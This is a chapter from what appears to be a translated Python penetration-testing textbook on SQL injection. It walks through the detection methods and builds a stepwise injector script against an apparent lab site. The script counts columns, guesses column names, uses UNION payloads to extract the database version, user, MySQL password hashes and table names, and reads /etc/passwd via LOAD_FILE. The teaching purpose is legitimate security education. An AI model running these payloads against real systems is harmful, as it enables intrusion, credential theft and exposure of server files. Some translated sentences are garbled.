


# 检测和利用 SQL 注入漏洞

在[第 5 章](5.html#1MBG20-5a228e2885234f4ba832bb786a6d0c80)、*密码测试*中，我们了解了不同的认证方法，并创建了密码暴力强制工具。在本章中，我们将了解影响 web 应用程序的最危险的漏洞之一，**SQL 注入**（**SQLi**）。

在本章中，我们将了解：

*   SQL 注入简介
*   检测 SQL 注入问题
*   利用 SQL 注入提取数据
*   高级 SQLi 开发

# SQL 注入简介

什么是 SQL 注入？这是一种输入操作漏洞。顾名思义，这是一个攻击者操纵 web 应用程序以向应用程序数据库中注入任意 SQL 代码的漏洞。此漏洞主要影响使用 DBs 存储和检索数据的 web 应用程序。

如今，大多数 web 应用程序使用 DB，因此受此漏洞影响的联合 web 应用程序数量巨大。此问题的主要原因是 web 应用程序使用来自不受信任源的数据动态构造 SQL 查询。如果注入成功，攻击者可以：

*   提取任意数据
*   将被篡改的数据插入数据库
*   绕过身份验证授权和访问控制
*   通过执行操作系统命令来控制服务器

如您所见，它允许您在 web 应用程序中执行许多操作，这对于攻击者来说是非常好的。

假设我们的 web 应用程序中有一个登录表单。此登录表单将由我们的服务器端代码处理，该代码将从`POST`内容中获取用户名和密码。它将被分配给变量、名称和过程。然后，这两个变量将用于动态构造 SQL 语句：

```py
$name=$_POST("UserName");
$pass=$_POST("UserPass");

sql="SELECT * FROM Users WHERE Username='$name' and password='$pass'"

sql="SELECT * FROM Users WHERE Username='admin' and password='superRoot'"
```

当我们的用户提供有效的用户名和密码，如`admin`和`superRoot`，登录将成功。但是，如果用户为其输入提供特殊字符和结构，会发生什么情况？

让我们想象同样的例子，但这次，攻击者插入了一个`'`或`1=1`作为名称和密码。这里会发生什么？生成的 SQL 查询是有效的。它将返回来自表用户的所有行，因为`1=1`始终为真。这意味着它将返回用户表中的所有结果：

```py
$name=$_POST("UserName");
$pass=$_POST("UserPass");

sql="SELECT * FROM Users WHERE Username='$name' and password='$pass'"

sql="SELECT * FROM Users WHERE Username='' or '1'='1'' and password='' or '1'='1''"
```

在此登录屏幕中，攻击者将与表的第一个用户一起登录。很多时候，第一个用户是`admin`，除非有一些用户被称为`Aaron`和`Charl`等等。

# SQLi 与盲 SQLi

当 web 应用程序易受 SQL 注入攻击，但注入结果对攻击者不可见时，称为盲 SQLi。

管理员、开发人员和框架正在处理错误以避免信息泄漏。当攻击者看不到任何结果或错误时，我们仍然有一些方法可以帮助以盲法利用 SQL 注入。他们是：

*   **布尔**：该方法基于注入有效负载，改变原始查询的结果，从而产生不同的返回页面内容
*   **基于时间的**：这种方法基于注入有效负载，在处理我们的查询时触发 SQL server 的延迟时间，从而降低我们请求的响应时间

稍后我们将更详细地了解这些技术。

# 检测 SQL 注入问题

在本节中，我们将学习如何检测 SQL 注入，以及如何在 Python 中交替检测 SQL 注入。我们将了解在 web 应用程序中检测 SQLi 的不同方法。然后，我们将根据其中一种方法自动检测这些问题。最后，我们将枚举查询中使用的列，并在表中标识有效的列名。

# 检测 SQLi 的方法

为了检测 SQLi，我们有三种方法：

*   **基于错误的**：该方法在服务器上注入打破原始查询并生成 SQL 错误的有效负载，可以在返回页面的内容中检测到：


*   **Boolean**：该方法注入有效负载，改变原始查询的结果，使应用程序返回不同的页面内容。基本上，我们将确定有效页面的大小与无效页面的大小，然后执行布尔查询，就像我们在这里看到的一样：


如果数据库版本的第一个数字是`5`，我们将获得 ID 为`1008`的页面。如果没有，我们将获得错误页面。如果我们想要精确的数据库版本，我们需要自动执行此查询并猜测每个位置的值。

*   **基于时间的**：此方法在处理查询时注入有效负载，触发 SQL server 中的延迟。如果延迟足够大，并且网络中没有明显的延迟，我们可以判断查询是否正确执行：


# 自动检测

让我们回到编辑器，在`Section-6`、`SQLinjector-0.py`中打开。需要强调的是，所有内容和脚本都基于 MySQL 数据库，并且只能与此数据库一起使用。

在`import`部分，我们有与[第 5 章](5.html#1MBG20-5a228e2885234f4ba832bb786a6d0c80)、*密码测试*相同的内容。然后，我们有典型的`banner`和`usage`功能：

```py
def banner():
  print "\n***************************************"
  print "* SQlinjector 1.0 *"
  print "***************************************"

def usage():
  print "Usage:"
  print " -w: url (http://somesite.com/news.php?id=FUZZ)\n"
    print " -i: injection strings file \n"
  print "example: SQLinjector.py -w http://www.somesite.com/news.php?id=FUZZ \n"
```

然后，我们有`start`函数，它没有什么新功能。然后，我们有共同的选择。我们有两个参数，即要测试的 URL 和注入字典：

```py
def start(argv):
    banner()
  if len(sys.argv) < 2:
       usage()
       sys.exit()
  try:
    opts, args = getopt.getopt(argv,"w:i:")
  except getopt.GetoptError:
    print "Error en arguments"
    sys.exit()
  for opt,arg in opts :
    if opt == '-w' :
      url=arg
    elif opt == '-i':
      dictio = arg
  try:
    print "[-] Opening injections file: " + dictio
    f = open(dictio, "r")
    name = f.read().splitlines()
  except:
    print"Failed opening file: "+ dictio+"\n"
    sys.exit()
  launcher(url,name)
```

然后，我们转到函数`launcher`。这将用输入文件中提供的所有`injection`字符串替换`FUZZ`令牌：

```py
def launcher (url,dictio):
  injected = []
  for sqlinjection in dictio:
    injected.append(url.replace("FUZZ",sqlinjection))
  res = injector(injected)
  print "\n[+] Detection results:"
  print "------------------"
  for x in res:
    print x.split(";")[0]
```

然后调用`injector`并打印结果。函数`injector`是下一个 SQL 注入，基于错误：

```py
def injector(injected):
  errors = ['Mysql','error in your SQL']
  results = []
  for y in injected:
    print "[-] Testing errors: " + y
    req=requests.get(y)
    for x in errors:
      if req.content.find(x) != -1:
          res = y + ";" + x
          results.append(res)
  return results
```

为此，我们有数组错误，在`Mysql`错误中找到的字符串数量有限。然后，我们执行`requests`，如果发现错误，我们将 URL 添加到结果数组中，最后将在 launcher 函数中打印。

那么，让我们试试这个脚本。还记得我们在[第 4 章](4.html#1ENBI0-5a228e2885234f4ba832bb786a6d0c80)、*资源发现*中用暴力脚本识别的有趣文件吗？我们需要特别关注一个文件。是`/users.php`：


此文件似乎接受输入并返回该用户 ID 的用户和行。让我们看看如果我们放置`1`会发生什么。您可以看到，在这种情况下，我们得到了一个带有`ID: 1`、`Name: johnny`和`role: test`的响应：



杰出的让我们复制 URL 作为脚本的输入。

让我们转到控制台并使用以下参数运行 SQL injector：

```py
python SQLinjector-0.py -w "http://www.scruffybank.com/users.php?id=FUZZ&Submit=Submit#" -i injections.txt
```

这些是我们从浏览器复制的 URL 和我们为本练习创建的注入文件。

接下来，按*键进入*：



我们可以看到脚本检测到由以下字符生成的 SQL 错误；单引号和括号。

我们可以检查浏览器以查看这些字符生成的错误。现在，在浏览器中，将此`1`替换为`'`并按*键进入*：


我们可以看到，在生成 SQL 错误时，我们可以操作该查询。

让我们继续改进 SQL 注入器脚本。

现在，打开脚本`SQLinjector-1.py`。您可以看到我们有两个新功能，`detect_columns`和`detect_columns_names`：

```py
def detect_columns(url):
  new_url= url.replace("FUZZ","admin' order by X-- -")
  y=1
  while y < 20:
    req=requests.get(new_url.replace("X",str(y)))
    if req.content.find("Unknown") == -1:
      y+=1
    else:
      break
  return str(y-1)

def detect_columns_names(url):
  column_names = ['username','user','name','pass','passwd','password','id','role','surname','address']
  new_url= url.replace("FUZZ","admin' group by X-- -")
  valid_cols = []
  for name in column_names:
    req=requests.get(new_url.replace("X",name))
    if req.content.find("Unknown") == -1:
      valid_cols.append(name)
    else:
      pass
  return valid_cols
```

`detect_columns`尝试确定此 select 中使用了多少列，以及我们试图操纵多少列。这些信息对于创建 SQL 查询非常重要。为了做到这一点，我们使用了 orderby 技术。我们可以通过`X`添加订单，其中`X`是一个数字。如果数字小于或等于列数，则返回结果；否则，它将返回一个错误。因此，如果我们尝试此操作直到出现错误，这将意味着列数小于`X`。

让我们在浏览器中看到这一点。现在，我们尝试使用`a' order by 1`。我们需要使用`-- -`完成查询，以避免错误：


通过`1`，我们得到了结果。因此，它们至少使用一列。让我们试试三个。我们得到`Unknown column '3' in 'order close'`：


这意味着少于三列。

在这种情况下，它将是`2`：


我们还有一个名为`detect_columns_names`的新函数。此函数尝试在 SQL 查询使用的表中标识有效的列名。这很有用，因为它将帮助我们定制查询以提取数据。我们将通过技术来使用小组。我们添加了`group by`和一列的名称。如果存在，则返回有效结果；如果没有，我们会得到一个错误。数组`column_names`有一个列的有趣名称列表，但实际上，您需要一个广泛的单词词典来识别尽可能多的列。

让我们在浏览器中查看一个示例。这一次，我们将使用`group`和`password`作为列名。

然后，我们点击*进入*。我们可以看到它是有效的，我们得到了`admin`结果：


但是如果我们使用`username`作为列名呢？我们可以在 group 语句中添加`username`。我们可以看到，`username`列无效：


因此，我们知道识别无效列名的错误消息。

现在，让我们在命令行中运行脚本。我们将切换到`SQLinjection-1.py`并运行它：

```py
python SQLinjector-1.py -w "http://www.scruffybank.com/users.php?id=FUZZ&Submit=Submit#" -i injections.txt
```

我们可以看到，我们得到了与之前相同的结果，加上列数：


在本例中，列数为`2`，找到的部分列名为`name`、`passwd`、`id`和`role`。

祝贺您已经创建了一个 SQL 注入器检测器。

# 利用 SQL 注入提取数据

在本节中，我们将学习如何利用 SQL 注入，以及如何在 Python 中替代 SQL 注入。我们将学习使用 SQL 注入可以提取什么样的数据，然后我们将替代其中一些技术，例如在上一节的 SQL 注入脚本中自动提取基本数据。

# 我们可以使用 SQLi 提取哪些数据？

一旦我们确定了一个有效的 SQL 注入，就应该决定我们要寻找什么了。在这里，我们列出了最典型的事情：

*   **基础数据**：如数据库版本、运行数据库的用户、当前数据库、数据库目录等
*   **高级数据**：MySQL 用户名密码、数据库、表名、列名、表内容
*   **OS 文件**：只要运行数据库的用户有权限，我们就可以读取文件系统中的任何文件

这些是一些最有用、最典型的提取数据。我鼓励您继续学习在 SQL 注入工作后可以做的其他事情。
一个好的起点是 pentestmonkey 备忘单（[http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) 。

# 自动化基本提取

在 SQL 注入工作之后，我们想要获得的第一件事是关于我们正在使用的数据库的信息，例如数据库版本、当前用户、当前数据库等等。

为此，我们需要使用`SELECT @@ version;`。我们将获取数据库版本。`SELECT user();`将为您获取运行数据库的用户。对于我们的示例，我们必须使用以下注入来获得版本：；`'union SELECT1, @@version;-- -`。我们需要在`@@version`前面加上`1`，以匹配查询中的列数，即受 SQL 注入影响的列数。

在我们的例子中，有两列；这就是我们添加`1`的原因。

让我们转到我们的编辑器，继续处理文件`SQLinjector-2.py`。为了从数据库中获取版本和当前用户，我们添加了两个新函数。您会注意到，我们有以下注射：

```py
def detect_user(url):
  new_url= url.replace("FUZZ","""\'%20union%20SELECT%201,CONCAT('TOK',user(),
 'TOK')--%20-""")
  req=requests.get(new_url)
  raw = req.content
  reg = ur"TOK([a-zA-Z0-9].+?)TOK+?"
  users=re.findall(reg,req.content)
  for user in users:
    print user
  return user

def detect_version(url):
  new_url= url.replace("FUZZ","\'%20union%20SELECT%201,CONCAT('TOK',@@version,'TOK')--%20-")
  req=requests.get(new_url)
  raw = req.content
  reg = ur"TOK([a-zA-Z0-9].+?)TOK+?"
  version=re.findall(reg,req.content)
  for ver in version:
    print ver
  return ver
```

`%20`是空格字符的 URL 编码版本。我们使用`CONCAT`命令在结果的开头和结尾连接字符串对话。字符串将用作标识 HTML 结果中查询输出的标记。现在，我们将看到提取版本所需的代码。

为此，我们使用正则表达式处理结果，以识别标记并提取它们之间的字符串。我们定义正则表达式，然后使用`re`库中的`findall`函数和请求-响应的内容，然后对结果进行迭代。

在这种情况下，应该只有一个。我们将通过使用`@@version`而不是`user`执行相同的过程来获取数据库版本。

现在，我们想要获得 MySQL 用户名和密码哈希。我们需要的查询是`SELECT user, password from mysql.user;`。

请记住，只有在与数据库建立连接的用户具有访问该表的权限时，此操作才有效。最佳实践推荐游戏阶段，但许多人仍然这样做。

我们添加了函数`steal_users`来提取这些数据。我们将使用与前面相同的技术来标识 HTML 结果中的输出。让我们在命令行中运行它并查看输出。我们将使用与前面相同的命令行：


现在，我们可以看到已提取的新数据。将打印数据库版本。在这种情况下，它是`5.6.28`。它也给了我们一个关于操作系统的提示；`Ubuntu 15.10.1`。运行数据库的用户是 root 用户，这意味着我们拥有很高的权限，这将允许我们做更多有趣的事情，例如，访问存储用户名和密码哈希的表`MySQL.user`。

我们可以看到用户`root`、`debian-sys-maint`和`phpmyadmin`的哈希值。重复发生是因为与每个用户关联的主机条目不同。如果需要的话，可以使用像开膛手约翰这样的工具破解这些密码散列。伟大的您对目标有很好的了解，所以让我们继续提取数据。

# 高级 SQLi 开发

在本节中，我们将添加一个从数据库读取所有表名的函数，并添加一个从数据库服务器 OS 读取文件的函数。

首先，我们将看到如何获取数据库中的所有表名，以便查看是否看到感兴趣的内容，然后我们将添加从 OS 文件系统访问 Final 的功能。

现在，让我们打开文件`SQLinjector-3.py`。我们在这里有一个新函数，它将帮助我们获得不同模式中的表名，除了我们过滤掉的那些，以减少输出中的噪音：

```py
def detect_table_names(url):
  new_url= url.replace("FUZZ","""\'%20union%20SELECT%20CONCAT('TOK',
  table_schema,'TOK'),CONCAT('TOK',table_name,'TOK')%20FROM
  %20information_schema.tables%20WHERE%20table_schema%20!=%20
  %27mysql%27%20AND%20table_schema%20!=%20%27information_schema%27
  %20and%20table_schema%20!=%20%27performance_schema%27%20--%20-""")
  req=requests.get(new_url)
  raw = req.content
  reg = ur"TOK([a-zA-Z0-9].+?)TOK+?"
  tables=re.findall(reg,req.content)
  for table in tables:
    print table
```

结构与以前相同；我们有我们所需要的查询，有助于传递结果的标记和用于传递结果的正则表达式，然后打印结果。最后，我们在`launcher`中有函数调用。让我们在命令行中再次运行它。

在命令行中，让我们使用与前面相同的参数运行它，`SQLinjector-3.py`和相同的参数：

```py
python SQLinjector-3.py -w "http://www.scruffybank.com/users.php?id=FUZZ&Submit=Submit#" -i injections.txt
```

很好，您现在可以在输出中看到，我们得到了模式名和表名：


在本例中，`pyweb`和`phpmyadmin`是模式，其他是表`user`等等。

让我们转到最后一个例子。我们去编辑器打开文件`SQLinjection-4.py`。这非常酷，它为攻击者打开了一个新的机会世界。让我们看看新的函数，`read_file`：

```py
def read_file(url, filename):
  new_url= url.replace("FUZZ","""A\'%20union%20SELECT%201,CONCAT('TOK',
 LOAD_FILE(\'"+filename+"\'),'TOK')--%20-""")
  req=requests.get(new_url)
  reg = ur"TOK(.+?)TOK+?"
  files= re.findall(reg,req.content)
  print req.content
  for x in files:
    if not x.find('TOK,'):
      print x
```

我们将用于读取文件的查询在前面的代码中突出显示。基本上，这里的新事物是函数`LOAD_FILE`的使用。

我们可以使用这个函数，顾名思义，它将加载一个文件，并将内容放在查询中选择的列中。我们将与工会一起使用它。然后，在`launcher`中，我们需要用我们想要读取的文件调用这个函数。在本例中，我们使用的是`filename="/etc/passwd"`：

```py
  filename="/etc/passwd"
  message = "\n[+] Reading file: " + filename
  print colored(message,'green')
  print "---------------------------------"
  read_file(url,filename)
```

此文件包含 Linux 操作系统的用户。让我们在命令行中运行它。使用与前面相同的命令行，只需将文件名更改为`SQLinjector-4.py`。我们有确切密码文件的内容：


现在，我们可以进一步了解这个系统。让我们花一点时间想想我们通过滥用一个简单的编程错误所取得的成就；我们正在从数据库和操作系统获取大量信息，而这仍然是开始。

我建议你玩这个，直到你对技术感到满意为止。如果有些东西不起作用，请检查 SQL 语法。一开始犯错误是很常见的。

# 总结

在本章中，我们学习了如何使用 SQL 注入从数据库中枚举表名，以及如何通过 SQL 注入从操作系统文件系统读取文件。

请记住查看工具，如 SQLMap 或 SQLBrute，以了解这些工具的工作原理。

在[第 7 章](7.html#2D7TI0-5a228e2885234f4ba832bb786a6d0c80)*拦截 HTTP 请求*中，我们将学习 HTTP 代理，并基于 mitmproxy 工具创建我们自己的代理。